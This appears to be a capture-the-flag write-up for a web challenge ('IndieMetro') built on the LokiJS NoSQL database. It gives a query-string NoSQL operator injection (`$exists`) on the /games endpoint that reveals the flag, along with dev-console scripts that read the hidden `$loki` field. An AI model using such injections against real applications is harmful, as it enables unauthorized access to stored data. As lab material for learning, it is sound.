 # Q1: What database is this app using?
**A1:** Looking at the JS code, you see the information that is getting displayed is coming from the page `/games`. 

Looking inside we see that the page is full of [JSON data](/Fall2024/WebApp/IndieMetro(Hard)/games.json).

Inside each of these, there is a field that doesn't fit anything that's shown. Researching that will give you the answer.

# Q2: What is the flag?
**A2:** Apparently the solution to this was seeing that LokiJS is a NOSQL database and using an injection in the URL of the get page that looks like: `/games?id[$exists]=true&release[$exists]=false`. 

There's a similar injection on PayloadsAllTheThings but I just didn't see the NOSQL on the GitHub cause I can't read.



Using the following code in the dev console will get whichever `$loki` value matches from the JSON:
```js
(async function() {
    const { body: games } = await superagent.get('/games'); // Fetch the games data
    const entry = games.find(game => game.$loki === 1); // Find the entry with id 0
    console.log(entry); // Log the entry to the console
})();
```


```js
(async function load() {
    const cards = $('#cards');
  
    const { body : games } = await superagent.get('/games');
  
    _.each(games, (game) => {
      console.log(game);
      const card = $('<div>', { class : 'card' })
        .append(
          $('<div>').addClass('content').append(
            $('<div>').addClass('header').text(game.title)
          )
            .append($('<div>').addClass('description').text(game.description))
            .append($('<div>').addClass('$loki').text(game.$loki))
        )
      ;
  
      cards.append(card);
    });
  }());
```
